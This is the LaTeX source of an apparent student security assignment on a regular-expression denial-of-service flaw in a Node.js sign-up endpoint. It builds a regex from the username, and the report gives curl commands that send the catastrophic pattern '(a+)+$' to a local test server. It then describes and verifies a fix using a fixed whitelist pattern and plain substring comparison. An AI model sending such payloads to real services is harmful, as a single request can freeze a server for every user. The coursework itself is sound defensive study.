\documentclass[11pt]{article}

\usepackage[margin=2.5cm]{geometry}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{hyperref}
\usepackage{parskip}

\lstset{
  basicstyle=\ttfamily\small,
  breaklines=true,
  frame=single,
  backgroundcolor=\color{gray!10},
  xleftmargin=1em,
  xrightmargin=1em
}

\title{DVA489 --- Assignment 3 \\ Attack Report: Regular Expression Denial of Service (ReDoS)}
\author{Nasif Sarwar}
\date{\today}

\begin{document}
\maketitle

\section{Overview}
During sign-up, the unpatched application builds a regular expression
directly out of the username the attacker supplies, and uses it to check the
password:
\begin{lstlisting}[language=JavaScript]
const pattern = new RegExp(username);
const validPassword = pattern.test(password);
\end{lstlisting}
Node.js runs on a single thread shared by every client. The regex engine
used here (like most engines, including JavaScript's) backtracks when
matching certain patterns, and some patterns --- those with nested or
overlapping repetition, such as \texttt{(a+)+} --- can force the engine into
\emph{catastrophic backtracking}: the number of ways it tries to match a
non-matching string grows exponentially with the string's length. Because
the username is attacker-controlled and ends up directly inside
\texttt{RegExp(...)}, an attacker can submit a pattern engineered to trigger
this behaviour. Since the match runs synchronously on Node's single thread,
the entire server --- every other request from every other user --- is
blocked until that one match finishes, which for a well-chosen pattern can
take seconds, minutes, or longer.

\section{Task 1: Freezing the server}
A sign-up request was sent with the username set to the classic
catastrophic-backtracking pattern \texttt{(a+)+\$} and a password of 28
repeated \texttt{a} characters (chosen so it does not match the pattern,
forcing the engine to exhaust every backtracking path before giving up):
\begin{lstlisting}[language=bash]
curl -sk -H "Content-Type: application/json" \
  -d '{"username":"(a+)+$","password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaa"}' \
  https://localhost:8000/signup
\end{lstlisting}
This single request took over 10 seconds to return. More importantly, a
second, completely unrelated request (a plain \texttt{GET /}) sent to the
server \emph{while the first request was still pending} also had to wait
for the full duration --- proving the block is not local to the slow
request, but freezes the whole server for every client:
\begin{lstlisting}[language=bash]
(time curl -sk -H "Content-Type: application/json" \
  -d '{"username":"(a+)+$","password":"aaaa...a"}' \
  https://localhost:8000/signup > /tmp/attack.log 2>&1) &
sleep 0.5
time curl -sk https://localhost:8000/ -o /dev/null -w "plain GET: %{http_code}\n"
\end{lstlisting}

\begin{figure}[h]
  \centering
  
\includegraphics[width=0.95\textwidth]{images/task1-server-frozen.png}
  \caption{Both the malicious request and a plain, unrelated \texttt{GET /}
  issued half a second later are blocked for roughly the same $\sim$10.5
  second duration --- a single attacker request froze the entire server,
  not just its own connection.}
\end{figure}

A single request from one attacker, with no authentication and no volume of
traffic required, was enough to make the server unresponsive to every other
user for the duration of the match.

\section{Defense: remove the dynamic regex entirely}
The fix does not try to sanitise or rate-limit the attacker-supplied regex
--- any pattern built from attacker input is a ReDoS risk in principle, no
matter how it is filtered. Instead, the dynamic regex is removed
altogether.

\subsection{Username validation: a fixed, non-dynamic whitelist}
Usernames are checked against a hardcoded regular expression that never
changes and is never built from user input:
\begin{lstlisting}[language=JavaScript]
const USERNAME_PATTERN = /^[A-Za-z0-9_]{4,}$/;
const validUsername =
  typeof username === 'string' && USERNAME_PATTERN.test(username) && !users[username];
\end{lstlisting}
Here the \emph{pattern} is fixed source code and the \emph{input} is what is
being tested against it --- the reverse of the vulnerable version, where the
input became the pattern. \texttt{USERNAME\_PATTERN} itself has no nested or
overlapping repetition, so it has no catastrophic-backtracking behaviour
regardless of what string is tested against it. This also has the side
effect of rejecting \texttt{(a+)+\$} outright, since parentheses, plus
signs and dollar signs are not in the allowed character set.

\subsection{Password check: no regex at all}
The original check used the (attacker-controlled) regex to test the
password. That check is replaced with a plain substring comparison, which
has no backtracking behaviour of any kind:
\begin{lstlisting}[language=JavaScript]
let validPassword = password !== undefined && password.length >= 8;
if (validPassword) {
  validPassword = !password.includes(username);
}
\end{lstlisting}
This keeps the original intent of the check (a password should not simply
contain the username) without ever compiling a regular expression from
user-supplied data.

\section{Verification}
The same attack request --- username \texttt{(a+)+\$}, a 28-character
password of \texttt{a}s --- was sent to the patched server. It was rejected
instantly, with no measurable delay, because the username fails the
whitelist check before any matching against the password is attempted:
\begin{lstlisting}[language=json]
{"success":false,"field":"username"}
\end{lstlisting}

\begin{figure}[h]
  \centering
  
\includegraphics[width=0.95\textwidth]{images/patched-instant-reject.png}
  \caption{Against the patched server, both the attack request and the
  concurrent plain \texttt{GET /} complete in well under a second (0.07s
  and 0.03s), compared to $\sim$10.5 seconds against the unpatched server.}
\end{figure}

A legitimate sign-up (a normal username and an 8+ character password not
containing it) was also confirmed to still succeed, and a password that
does contain the username is still correctly rejected --- the fix removes
the vulnerable code path without changing the feature's intended behaviour.

\section{Conclusion}
The ReDoS vulnerability let a single, unauthenticated request from one
attacker take the entire application offline for every user, simply by
choosing a username engineered to make Node's regex engine backtrack
catastrophically. The underlying cause was using attacker-controlled input
to build a regular expression at all. The fix does not attempt to detect or
sanitise dangerous patterns --- that approach is fragile, since new
catastrophic patterns are easy to construct. Instead it eliminates the
dynamic regex entirely: usernames are validated against a fixed,
non-dynamic pattern, and the password check uses plain string comparison
with no regex involved.

\end{document}
